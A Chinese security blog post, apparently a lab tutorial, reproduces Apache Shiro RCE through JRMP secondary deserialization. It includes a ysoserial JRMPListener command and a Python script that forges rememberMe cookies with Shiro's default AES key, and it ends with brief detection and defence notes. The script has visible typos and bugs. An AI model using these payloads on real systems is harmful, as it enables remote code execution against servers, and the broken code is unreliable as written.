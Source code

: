 ```yaml
---
layout: post
title: 'JAVA反序列化六'
subtitle: 'JRMP二次序列化'
date: 2021-09-23
categories: 技术
cover: 'http://on2171g4d.bkt.clouddn.com/jekyll-theme-h2o-postcover.jpg'
tags: 网络安全 JAVA
---
```


### 什么是JRMP

JAVA远程方法协议（Java Remote Method Protocol，JRMP）是特定于java技术的，用于查找和引用远程对象的协议。这是运行再java远程方法调用（RMI）之下、TCP/IP之上的线路层协议

JRMP是一个java特有的、适用于Java之间远程调用的基于流的协议，要求客户端和服务器上都使用Java对象

### 使用JRMP二次序列化的原因

由于shiro里面原本的反序列化的地方有自定义操作，无法加载数组类型的类，但是通过让它反序列化一个JRMPClient的payload，它会向远端攻击者指定的一个地址发起JRMP请求，并返回响应再进行反序列化解析，而JRMP响应反序列化解析这个过程，用的是RMI模板里正常的ObjectInputStream来readObject，它可以正常加载数据类型的类，因而通过这种二次反序列化的方式，就最终能正常加载Transformer数组，完成commons-collections利用链的解析，实现RCE

### 步骤

1.首先攻击者用ysoserial在自己的服务器上启动一个恶意的JRMPListener，用于提供payload CommonsCollections6，并指定弹计算器命令

![](https://1024861435.github.io/assets/img/JRMP二次序列化1.png)

2.攻击者再用ysoserial生成JRMPClient payload，发送给服务端

![](https://1024861435.github.io/assets/img/JRMP二次序列化2.png)

反序列化成功

![](https://1024861435.github.io/assets/img/JRMP二次序列化3.png)

### 漏洞复现

1.首先攻击者用ysoserial在自己的服务器上启动一个恶意的JRMPListener，用于提供payload CommonsCollections6，并指定弹计算器命令

	java -cp ysoserila.jar ysoserial。exploit。JRMPListener 9999 CommonsCollections6 "calc"

![](https://1024861435.github.io/assets/img/JRMP二次序列化4.png)

使用后它会监听JRMP，本地的9999端口

2.使用脚本发送请求

命令

	python Shiro_dns.py "http://localhost:8080/samples-web/login.jsp" "127.0.0.1:9999"、

脚本 

	import sys
	import base64
	import uuid
	from random import Random
	import subprocess
	from Crypto.Cipher import AES
	import requests
	
	proxy={
	    "http":"http://127.0.0.1:9998",
	    "https":"https://127.0.0.1:9998",
	}
	
	def encode_rememberme(command,key):
	    popen=subprocess.Popen(['java','-jar','D:\ysoserial\ysoserial-master-8eb5cbfbf6-1.jar','JRMPClient',command],stdout=subprocess.PIPE)
	    BS = AES.block_size
	    pad = lambda s: s+((BS - len(s)%BS)*chr(BS-len(s)%BS)).encode()
	    mode = AES.MODE_CBC
	    iv = uuid.uuid4().bytes
	    encryptor = AES.new(base64.b64decode(key),mode,iv)
	    file_body = pad(popen.stdout.read())
	    base64_ciphertext = base64.b64decode(iv+encryptor.encrypt(file_body))
	    return "rememberMe="+base64_ciphertext
	
	if __name__ == '__main__':
	    keylist=['kPH+bIxk5D2deZiIxcaaaA==']
	
	    for key in keylist:
	        cookie = encode_rememberme(sys.argv[2],key)
	        header = {"Cookie":cookie}
	        print(header,key)
	        r = requests.get(sys.argv[1],header=header,verify=False)
	        print(r.status_code)	

![](https://1024861435.github.io/assets/img/JRMP二次序列化5.png)

发送成功后会发现9999监听到了

![](https://1024861435.github.io/assets/img/JRMP二次序列化6.png)

并且计算器的命令执行成功

![](https://1024861435.github.io/assets/img/JRMP二次序列化7.png)


### 漏洞检测

关于漏洞的发现于检测也很简单，只需要在请求的Header中带有rememberMe=x

判断返回是否包含完整的rememberMe=deleteMe；字段即可

### 总结

> 1.漏洞触发场景

在java编写的web应用与web服务器间java通常会发送大量的序列化对象

例如以下场景：

	1）HTTP请求中的参数，cookies以及Parameters
	2）使用了RMI协议，需要引起注意，因为它完全基于序列化
	3）JMX同样用于处理序列化对象
	4）自定义协议，用来接受与发送原始的java对象

> 2.漏洞挖掘

1.确定反序列化输入点

首先应找出readObject方法调用，在找到以后进行下一步的注入操作。一般可以通过一下方法进行查找：

	1）源码审计：寻找利用的入口，即确定调用反序列化函数readObject的调用地点
	2）对该应用进行网络行为抓包，寻找序列化数据，如wireshack、tcpdump等
	注：java序列化数据一般一标记（ac ed 00 05）开头，base64编码后的特征为rO0AB

2.再考察应用的Class Path中是否存在可反序列化利用的Gadget库

### 防御

通过Hook resolveClass来校验反序列化的类

可设置白黑名单

黑名单校验

只能应急

[开源项目](https://github.com/ikkisoft/SerialKiller)